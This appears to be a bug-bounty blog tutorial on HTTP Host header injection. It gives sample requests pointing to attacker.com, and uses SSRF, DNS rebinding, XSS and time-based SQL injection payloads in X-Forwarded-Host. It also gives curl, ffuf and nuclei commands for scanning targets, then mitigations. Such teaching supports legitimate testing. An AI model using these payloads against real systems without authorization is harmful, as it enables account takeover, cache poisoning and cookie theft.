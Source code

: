 Mastering Host Header Injection: Techniques, Payloads and Real-World Scenarios
Learn How Attackers Manipulate Host Headers to Compromise Web Applications and How to Defend Against It
coffinxp
coffinxp

Following
6 min read
·
May 8, 2025
229


5






Introduction
Host header injection is a web vulnerability that arises when a web application trusts the value of the Host header in HTTP requests without proper validation. Attackers can manipulate this header to influence how the server processes requests, potentially leading to cache poisoning, password reset poisoning, web cache deception and even full account takeover in some scenarios.

Understanding the various ways to manipulate the Host header is crucial for both attackers and defenders. Below we explore the most common and advanced techniques for host header manipulation with practical examples and explanations.

Common Host Header Injection Techniques
Spoofing with Malicious Domain
Supply a rogue domain in the Host header to trick the application into generating links or redirects pointing to the attacker’s server.

example:

GET /reset-password HTTP/1.1  
Host: attacker.com
Adding a Prefix
By supplying a different domain in the Host header attackers can trick the application into generating links, redirects or password reset emails pointing to a malicious site.

example:

GET /admin.php HTTP/1.1
Host: attackertarget.com
Absolute URL Path
Some applications parse the Host header as part of a full URL which can be abused to bypass filters or confuse backend logic.

example:

GET /admin.php HTTP/1.1
Host: https://target.com/admin.php
Subdomain Bypass
Using a subdomain can sometimes bypass simple host validation checks that only look for the presence of the main domain.

example:

GET /admin.php HTTP/1.1
Host: subdomain.target.com
Leading Space or Tab Injection
Some servers or proxies may ignore or mishandle headers that contain leading spaces or tabs, which can result in inconsistent parsing and unexpected behavior

example:

GET /admin.php HTTP/1.1
 Host: target.com
Specifying a Different Port
Specifying a port in the Host header can sometimes bypass host-based access controls or confuse backend logic.

example:

GET /admin.php HTTP/1.1
Host: target.com:8080
Using X-Forwarded-Host Header
Many applications and proxies use the X-Forwarded-Host header to determine the original host requested by the client making it a prime target for injection.

example:

GET /admin.php HTTP/1.1
X-Forwarded-Host: attacker.com
Using Server’s IP Address
Supplying the server’s IP address instead of the domain can sometimes bypass virtual host routing or access controls.

example:

GET /admin.php HTTP/1.1
Host: <target IP>
Blank Host Header
Some servers behave unexpectedly or default to the first virtual host when the Host header is empty.

example:

GET /admin.php HTTP/1.1
Host: 
Multiple Host Headers
Sending multiple Host headers can exploit inconsistencies between different server components (e.g., frontend and backend parsing).

example

GET /admin.php HTTP/1.1
Host: target.com
Host: attacker.com
Another Site on Same IP
If multiple domains are hosted on the same server, specifying a different valid domain can sometimes yield sensitive information or access to unintended resources.

example:

GET /admin.php HTTP/1.1
Host: target2.com
Advanced and Less Common Techniques
Host Header Injection in SSRF (Server-Side Request Forgery)
When internal SSRF filters rely on the Host header for validation, attackers can forge internal requests or bypass SSRF protections.

example:

Host: internal-service.local
Use case: Bypassing SSRF protections to reach internal APIs or metadata services.

DNS Rebinding via Host Header Injection
When combined with DNS rebinding an attacker might use a malicious host to trick the app into trusting a rebinding domain.

example:

Host: rebinding.attacker.com
Internal web app may process the request allowing the attacker to bypass same-origin policy or internal network protections

rbndr.us dns rebinding service
This page will help to generate a hostname for use with testing for dns rebinding vulnerabilities in software. To use…
lock.cmpxchg8b.com

Host Header with Special Characters
Injecting special characters (e.g., null bytes, CRLF, or Unicode) can sometimes bypass filters or cause parsing errors.

example:

GET /admin.php HTTP/1.1
Host: target.com%00.attacker.com
Host Header with Path Traversal
Some misconfigured applications may parse the host as part of the path leading to unexpected behavior.

example:

GET /admin.php HTTP/1.1
Host: ../../attacker.com
Host Header with Encoded Values
URL-encoding or double-encoding the host value can sometimes bypass validation.

example:

GET /admin.php HTTP/1.1
Host: %74%61%72%67%65%74.com
Chaining X-Forwarded Headers for SQLi & XSS Injection
Abusing HTTP Headers for XSS and SQLi: Tricks with X-Forwarded-Host and X-Forwarded-For:

X-Forwarded-Host: evil.com"><img src/onerror=prompt(document.cookie)>

X-Forwarded-Host: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
Tools for Finding Header Injection Bugs
cURL
A versatile tool for manually testing header injection vulnerabilities.
Quickly send crafted requests with custom headers to identify misconfigurations or potential exploits.

example:

curl -I -H "Host: attacker.com" https://target.com
curl -I -H "X-Forwarded-Host: attacker.com" https://target.com
Burp Suite
Go to the Repeater tab, select the Host Header Injection option and choose your desired configuration. The tool will begin scanning for Host Header Injection vulnerabilities one by one. You can monitor the progress in the Flow tab, Once the scan is complete you can check the Burp Dashboard to see if any Host Header Injection vulnerabilities were detected


Nuclei
A fast and flexible vulnerability scanner designed for automated security testing. Just use this Nuclei template for testing header injection vulnerabilities:

example:

nuclei -u https://target.com -t x-forwarded.yaml
nuclei-templates/x-forwarded.yaml at main · coffinxp/nuclei-templates
Contribute to coffinxp/nuclei-templates development by creating an account on GitHub.
github.com

Ffuf
A fast and flexible tool for fuzzing custom headers and finding vulnerabilities. this allows you to fuzz HTTP headers efficiently making it ideal for testing header injection vulnerabilities like Host or X-Forwarded-Host etc.

example:

ffuf -u https://target.com -H "Host: FUZZ" -w hosts.txt
Gau / Waybackurls
Combine URL collectors like Gau or Waybackurls with custom scripts to efficiently test hosts for header injection vulnerabilities.

example:

cat domains.txt | while read url; do curl -H "Host: attacker.com" "$url"; done
Browser Extension
Chrome extension to manually modify headers like Host and X-Forwarded-Host.

ModHeader - Modify HTTP headers - Chrome Web Store
Modify HTTP request headers, response headers, and redirect URLs
chromewebstore.google.com

Automation tools
GitHub - devanshbatham/headerpwn: A fuzzer for finding anomalies and analyzing how servers respond…
A fuzzer for finding anomalies and analyzing how servers respond to different HTTP headers - devanshbatham/headerpwn
github.com

GitHub - roottusk/xforwardy: Host Header Injection Scanner
Host Header Injection Scanner. Contribute to roottusk/xforwardy development by creating an account on GitHub.
github.com

GitHub - pikpikcu/hostinject: hostinject (Host Header Injection) Tool is a Python script that…
hostinject (Host Header Injection) Tool is a Python script that allows you to perform host header injection…
github.com

Real-World Impact
Host header injection can lead to a variety of attacks including:

Web Cache Poisoning: Poisoning shared caches with malicious content.
Password Reset Poisoning: Causing password reset emails to contain attacker-controlled links.
Open Redirects: Redirecting users to malicious sites.
Bypassing Access Controls: Gaining unauthorized access to internal resources.
Mitigation Strategies
Strict Host Validation: Only allow a predefined list of trusted hosts.
Use Host Whitelisting: Validate hostnames against a known-safe list before use.
Avoid Host Header Usage: Don’t rely on Host headers to construct critical links or logic.
Disable Unnecessary Headers: Avoid using X-Forwarded-Host, X-Host, etc., unless absolutely necessary.
Conclusion
Host header injection remains a critical vulnerability in modern web applications especially those relying on virtual hosting or reverse proxies. By understanding and testing the various manipulation techniques, security professionals can better identify and remediate these issues before attackers exploit them.

Upnext: If you found this helpful, you’ll definitely want to check out my article The Ultimate Guide to Email Input Field Vulnerability Testing. It’s a hands-on guide to uncover hidden flaws in email fields that can lead to serious bugs 👇

The Ultimate Guide to Email Input Field Vulnerability Testing
Real-world methods and payloads for testing email field security
infosecwriteups.com

Disclaimer
The content provided in this article is for educational and informational purposes only. Always ensure you have proper authorization before conducting security assessments. Use this information responsibly
